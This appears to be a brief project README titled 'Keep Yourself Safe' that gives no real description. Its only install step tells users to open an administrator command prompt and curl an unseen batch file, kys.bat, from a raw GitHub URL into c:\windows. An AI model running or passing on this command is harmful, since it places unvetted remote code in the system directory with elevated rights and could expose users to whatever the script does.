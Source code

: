 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

# How to install
>You just need open cmd with admin perms
>And type next command
```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```
